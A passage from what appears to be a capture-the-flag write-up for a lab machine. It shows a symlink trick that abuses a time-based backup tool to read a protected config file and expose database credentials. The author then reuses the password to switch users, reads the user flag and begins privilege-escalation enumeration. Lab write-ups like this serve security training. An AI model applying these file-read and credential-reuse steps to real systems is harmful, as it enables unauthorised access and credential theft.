 ## Arbitrary file read as `pain`
Let's try:
```
chiv@forwardslash:~$ name=$(/usr/bin/backup | tail -n 1 | cut -d ' ' -f 2); ln -s /var/backups/config.php.bak $name; /usr/bin/backup
----------------------------------------------------------------------
        Pain's Next-Gen Time Based Backup Viewer
        v0.1
        NOTE: not reading the right file yet,
        only works if backup is taken in same second
----------------------------------------------------------------------

Current Time: 2:16:20
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'pain');
define('DB_PASSWORD', 'db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704');
define('DB_NAME', 'site');

/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

Lets try to use the password to become `chiv`:
```
chiv@forwardslash:~$ su pain
Password:
pain@forwardslash:/home/chiv$
```

And let's get the flag:
```
pain@forwardslash:/home/chiv$ wc -c ~/user.txt
33 /home/pain/user.txt
```

## Privilege escalation

During the normal enumeration steps, I found out that `pain` is in the
`backupoperator` group:
```
pain@forwardslash:~/encryptorinator$ groups
pain backupoperator
```
